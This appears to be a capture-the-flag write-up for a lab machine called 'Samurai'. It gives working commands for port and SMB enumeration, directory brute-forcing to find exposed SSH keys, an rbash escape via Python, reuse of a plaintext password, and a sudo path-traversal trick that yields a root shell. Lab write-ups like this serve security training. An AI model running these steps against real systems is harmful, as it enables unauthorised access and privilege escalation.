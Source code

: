 # Samurai

## Nmap

```
sudo nmap 192.168.104.90 -p- -sS -sV

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http          nginx 1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
7080/tcp open  ssl/empowerid LiteSpeed
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
8088/tcp open  http          LiteSpeed httpd
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Starting off on this machine we find that port 80 is restricted by a HTTP-basic-auth login.

![](<../../../.gitbook/assets/image (1146).png>)

I decided against bruteforcing for the moment and move straight on to other ports on the machine. Looking at port 445 for SMB I run enum4linux against the target and discovered some user accounts.

```
enum4linux -u '' -p '' -a 192.168.104.90 
```

![](<../../../.gitbook/assets/image (1147).png>)

We have discovered the following users:\\

* seppuku
* samurai
* tanto

Otherwise with no open shares on SMB we move onto enumerating port 7601 of which in the browser takes us to the following below:

![](<../../../.gitbook/assets/image (1148).png>)

Running `dirsearch.py` against this port reveals the /keys/ directory.

```
python3 dirsearch.py -u http://192.168.104.90:7601  -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 60 --full-url
```

![](<../../../.gitbook/assets/image (1151).png>)

![](<../../../.gitbook/assets/image (1149).png>)

Private and private.bak contain RSA keys. I moved the key over to my desktop, renamed to id\_rsa and used `chmod` to set appropriate permissions.

```
chmod 600 id_rsa
```

Knowing of the three users on the target machine we can guess and login to `SSH`. I was able to login with the user tanto.

```
ssh -i id_rsa tanto@192.168.172.90 
```

![](<../../../.gitbook/assets/image (1152).png>)

Once logged in as tanto we see we are restricted in `rbash` and unable to run some commands. I used the following command sequence to first escape `rbash` then export a new path then finally updated to a Python shell again.

```
python -c 'import os; os.system("/bin/sh")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
python -c 'import pty; pty.spawn("/bin/bash")'
```

Once we can move around the box again I moved into the seppuku users directory. The file .passwd is of interest and contains the password: `12345685213456!@!@A`

This password did not work for the user seppku but I was able to use `su` and the password to login as the user samurai.

![](<../../../.gitbook/assets/image (1153) (1).png>)

![](<../../../.gitbook/assets/image (1154).png>)

I then transferred linpeas over to the attacking machine which soon picked up sudo permissions.

![](<../../../.gitbook/assets/image (1155).png>)

Open another tab and log in as tanto on `SSH` again. The create the directory and file so we can execute as the user samurai. Once the directory and bin file has been created echo in a bash shell then `chmod` to make it executable.

```
mkdir .cgi_bin
cd .cgi_bin
echo '/bin/bash' > bin
chmod 755 bin
```

![](<../../../.gitbook/assets/image (1156).png>)

Then on our other tab execute the file with the following command to gain root shell:

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![](<../../../.gitbook/assets/image (1157).png>)
